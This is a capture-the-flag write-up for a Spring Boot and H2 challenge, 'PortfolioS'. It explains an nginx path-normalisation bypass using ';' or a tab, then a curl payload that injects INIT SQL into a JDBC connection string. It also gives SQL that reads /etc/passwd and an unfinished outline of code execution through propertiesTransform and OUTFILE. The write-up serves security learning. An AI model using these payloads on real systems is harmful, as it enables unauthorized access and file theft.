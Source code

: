 # PortfolioS

### Resources

#### 1. H2 database

([https://www.h2database.com/h2.pdf](https://www.h2database.com/h2.pdf))

{% embed url="https://www.h2database.com/html/features.html" %}

{% embed url="https://www.h2database.com/html/grammar.html" %}

{% embed url="https://www.baeldung.com/spring-boot-h2-database" %}

{% embed url="https://www.baeldung.com/java-h2-executing-sql-scripts" %}

#### 2. Exploitation

{% embed url="https://www.code-intelligence.com/blog/cve-jdbc-mysql-driver-rce-unauthorized-read-write-access" %}

{% embed url="https://sqlwiki.netspi.com/attackQueries/executingOSCommands/#mysql" %}

{% embed url="https://dev.mysql.com/doc/refman/8.4/en/select-into.html" %}

{% embed url="https://dev.mysql.com/doc/refman/8.4/en/string-functions.html#function_load-file" %}

{% embed url="https://github.com/Avento/CVE-2023-21971_Analysis" %}
CVE-2023-21971 Explanation
{% endembed %}

{% embed url="https://dev.mysql.com/doc/connector-j/en/connector-j-connp-props-connection.html#cj-conn-prop_propertiesTransform" %}
"propertiesTransform" description
{% endembed %}



#### 3. Others

{% embed url="https://bksec.vn/blog/writeup-cscv-2025" %}

{% embed url="https://github.com/awslabs/aws-mysql-jdbc/security/advisories/GHSA-vj9v-mpjv-qf74" %}

{% embed url="https://stackoverflow.com/questions/3833578/linux-command-for-extracting-war-file" %}



> Relevant Google dork terms to search:

```
DriverManager.getConnection RCE
h2 database getconnection "propertiesTransform"
```

### Analysis of the configuration files

1. `nginx.conf`

```nginx
events {}

http {
    server {
        listen 80;

        location = /internal/testConnection {
            return 403;
        }

        location / {
            proxy_pass http://app:8989;

            proxy_set_header Host $host:8989;
            proxy_set_header X-Real-IP $remote_addr;
        }
    }
}
```

* We can see that the `/internal/testConnection` route is filtered, and returns a 403 response.

### 1. Extraction and analysis of source code

...

#### 1.1 Extract files from `.war`

```sh
$ sudo apt install default-jdk
$ jar xvf /path/to/portfolio.war
```

#### 1.2 Decompile selected .class files

*   There are a few files of interest:

    1\) `WEB-INF/classes/com/ctf/portfolio/controller/AuthController.class`

    2\) `WEB-INF/classes/com/ctf/portfolio/controller/InternalController.class`

    3\) ...



* We can use the **CFR Java Decompiler**
  * Install the `cfr-xxx.jar` file from the [Github ](https://github.com/leibnitz27/cfr)repository release page (filename depends on the current version):

```sh
$ java -jar cfr-xxx.jar <to-decompile>.class
```

* Alternatively, we can use directly open any `.class` file in an editor such as Visual Studio Code, which will automatically decompile it.

#### 1.3 Analysis of the source cod`e`

a. From the import statements defined in the `.class` files, we can identify that the Spring framework is used

b. From the `WEB-INF/classes/com/ctf/portfolio/controller/InternalController.class` file, we can identify that H2 database is in use:

<figure><img src="../../../.gitbook/assets/image (61).png" alt=""><figcaption></figcaption></figure>



### 2. Exploring the H2 database configuration

From the `internalController.class`  file we have analyzed previously, we see the definition for the **POST** `/internal/testConnection` route:

<figure><img src="../../../.gitbook/assets/image (62).png" alt=""><figcaption></figcaption></figure>

Notice that the `fullUrl` variable is crafted from an input that we can control. This variable is used as an  argument to the `DriverManager.getConnection()` function.&#x20;

With this, we have an interesting attack vector. However, remember that the `/internal/testConnection` route returns a 403 error? Read on to understand how we can bypass this restriction.

#### 2.1 nginx + spring boot

{% embed url="https://blog.1nf1n1ty.team/hacktricks/pentesting-web/proxy-waf-protections-bypass#spring-boot" %}

From enumeration, we can identify that the Nginx is running on version 1.20.2 (_**Server**_ field from the HTTP response headers). Fortunately for us, that particular version of Nginx has a character bypass vulnerability which results from the Nginx WAF not removing a certain few characters (during normalization), but will be removed by the Spring boot server. The characters are:

```
\x09, ;
```

Hence, if we send a request to the `/internal/testConnection\0x09` or `/internal/testConnection;` routes, it will successfully bypass the Nginx filters. This will allow us to send a request to the `/internal/testConnection` route as if the Nginx filter is not present.

#### 2.2 Exploiting the unsanitized input to the `.getConnection()` function

#### 2.2.1 SQL statements

> Refer to the links above for more information regarding H2 database, and how to execute SQL commands, and escalate to RCE from there

{% code overflow="wrap" %}
```sh
$ curl -X POST "http://<target>/internal/testConnection;" -H "Cookie: JSESSIONID=xxxx" -H "content-type: application/json" -d "username=sa&password=;DB_CLOSE_DELAY=-1;INIT=<SQL>;"
```
{% endcode %}

* `<SQL>` can be replaced with any SQL commands:

{% code overflow="wrap" %}
```sql
SELECT load_file("/etc/passwd") from information_schema
...

```
{% endcode %}

* `DB_CLOSE_DELAY = -1`&#x20;

> This option ensures the database remains open as long as the Java Virtual Machine (JVM) is running. It prevents it from closing automatically when the last connection is closed. By default, the database closes when the last connection is terminated. The default value is zero. However, it’s essential to shut down the database with a shutdown command to avoid potential memory leaks.

#### 2.2.2 `propertiesTransform`

...

We can insert the `propertiesTransform` field into the payload:

Eg.&#x20;

{% code overflow="wrap" %}
```
username=sa&password=;DB_CLOSE_DELAY=-1&propertiesTransform=com.example.MyArbitraryClass"
```
{% endcode %}

In this case, we can create the `com.example.MyArbitraryClass` class, to perform RCE. We can use the payload to craft an SQL command (`INIT` field):

```sql
SELECT ... OUTFILE /path/to/MyArbitaryClass.java
```

